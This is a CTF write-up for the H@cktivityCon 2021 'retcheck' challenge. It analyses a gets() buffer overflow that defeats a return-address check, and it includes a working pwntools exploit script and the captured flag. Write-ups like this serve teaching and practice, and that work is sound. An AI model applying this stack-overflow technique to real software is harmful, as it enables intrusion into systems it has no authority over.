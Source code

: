 # H@cktivityCon 2021 CTF

## retcheck


> Stack canaries are overrated. 
> 
> 277
> 
> [`retcheck`](retcheck)
>
> author: @M_alpha#3534

Tags: _pwn_ _bof_ _rop_ _x86-64_ _ret2win_


## Summary

Basic ret2win, one function removed.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE/Canary, easy BOF/ROP.
    

### Decompile with Ghidra

```c
void vuln(void)
{
  size_t sVar1;
  long in_stack_00000000;
  char local_198 [400];
  
  RETADDR = in_stack_00000000;
  puts("retcheck enabled !!");
  gets(local_198);
  sVar1 = strcspn(local_198,"\r\n");
  local_198[sVar1] = '\0';
  if (in_stack_00000000 != RETADDR) {
    abort();
  }
  return;
}
```

`gets` is the vulnerability, and easy to exploit since no PIE or canary.  However, there is a check that the return address (on stack) was not overwritten; kinda necessary to start a ROP chain.  No worries, we'll overwrite the `main` return address instead:

```
0x00007fffffffe350│+0x0190: 0x00007fffffffe360  →  0x0000000000000000	 ← $rbp
0x00007fffffffe358│+0x0198: 0x0000000000401465  →  <main+18> mov eax, 0x0
0x00007fffffffe360│+0x01a0: 0x0000000000000000
0x00007fffffffe368│+0x01a8: 0x00007ffff7de70b3  →  <__libc_start_main+243> mov edi, eax
```

From GDB/GEF (above) you can see the return address back to `main` just below the preserved base pointer.  Then down stack two more lines you can see the return address for the `main` function.

So, just send `0x198` (see `local_198` above) of garbage followed by `0x401465` (the expected return back to main address) a `0x0`, then the address of the `win` function (not shown, just decompile yourself).

> The return address is a poor choice as a canary, especially with PIE disable since the return address is deterministic with static analysis.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./retcheck')

if args.REMOTE:
    p = remote('challenge.ctf.games', 31463)
else:
    p = process(binary.path)

payload  = b''
payload += 0x198 * b'A'
payload += p64(0x401465)
payload += p64(0)
payload += p64(binary.sym.win)

p.sendlineafter(b'\n',payload)
p.stream()
```

Nothing else to explain.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/hacktivityctf2021/retcheck/retcheck'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challenge.ctf.games on port 31463: Done
flag{a73dc20c1cd1f918ae7b591e8625e349}
```
